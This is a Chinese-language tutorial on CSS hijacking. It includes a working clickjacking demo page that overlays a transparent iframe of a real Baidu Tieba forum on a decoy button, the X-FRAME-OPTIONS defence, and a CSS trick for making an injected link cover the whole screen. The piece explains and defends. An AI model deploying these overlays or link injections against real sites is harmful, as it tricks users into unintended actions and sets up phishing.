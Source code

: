 # CSS劫持攻击
`CSS`劫持是一种并不很受重视的劫持方式，但是其也有一定的危害，且由于其并不一定需要依赖`JavaScript`，这使得此种攻击方式更容易实现。

## ClickJacking点击劫持
当访问某网站时，利用`CSS`将攻击者实际想让你点击的页面进行透明化隐藏，然后在页面后显示 一些东西诱导让你点击，点击后则会在用户毫不知情的情况下做了某些操作，这就是点击劫持`ClickJacking`。

### iframe覆盖
假如现在我们有个贴吧，想让人关注，可以构造一个钓鱼页面，诱导用户点击，实际上攻击者想要用户点击的关注页面是个透明的，用户如果在网页端登录了贴吧，就会在毫不知情的情况下关注了贴吧，这属于危害较小的情况，若是搭配一些表单诱导用户在页面输入某些敏感信息甚至可以构成财产损失的情况。

```html
<!DOCTYPE HTML>
<html>
<meta content="text/html; charset=utf8" />
<head>
<title>ClickJacking点击劫持</title>
<style>
     html,body,iframe{
         display: block;
          height: 100%;
          width: 100%;
          margin: 0;
          padding: 0;
          border:none;
     }
     iframe{
          opacity:0.2;
          position:absolute;
          z-index:2;
     }
     div{
          display: flex;
          justify-content: space-around;
          position:absolute;
          top: 335px;
          left: 310px;
          z-index: 1;
          width: 300px;
          height: 26px;
     }
</style>
</head>
     <body>
          <!-- 例子中的按钮位置是写定的，在不同分辨率下并不一定合适，应该动态确定按钮位置，但是作为一个Demo就不作过多操作了 -->
          <div>那些不能说的秘密<button>查看详情</button></div>
          <iframe src="https://tieba.baidu.com/f?kw=%E6%96%97%E7%A0%B4%E8%8B%8D%E7%A9%B9%E5%8A%A8%E6%BC%AB"></iframe>
     </body>
</html>
```
### 防御
`X-FRAME-OPTIONS`是目前最可靠的方法。  
`X-FRAME-OPTIONS`是微软提出的一个`HTTP`头，专门用来防御利用`iframe`嵌套的点击劫持攻击。
```
DENY // 拒绝任何域加载
SAMEORIGIN // 允许同源域下加载
ALLOW-FROM // 可以定义允许frame加载的页面地址
```


## CSS劫持流量
关于诱导用户点击进入网站的操作，利用`CSS`劫持也不失为一个好的思路，无论是论坛，还是邮件都有一个富文本编辑器，如果网站并未注意此种攻击方式并特殊处理，便很容易被利用。  
将富文本插入一个链接，在正常情况下应该是`<a href="xxx"></a>`，假如我们为其赋予一个样式，或者将其内部包裹一个字体的样式，将样式设置为`display: block;z-index: 100000;position: fixed;top: 0;left: 0;width: 1000000px;height: 100000px;`,也是就是让链接作为块级元素充满整个屏幕，则用户无论点击页面中的任何地方都会跳转到你指定的页面，这就将流量劫持到了你的页面，若用户并未注意到`url`的改变，还可以在跳转的新页面进行钓鱼。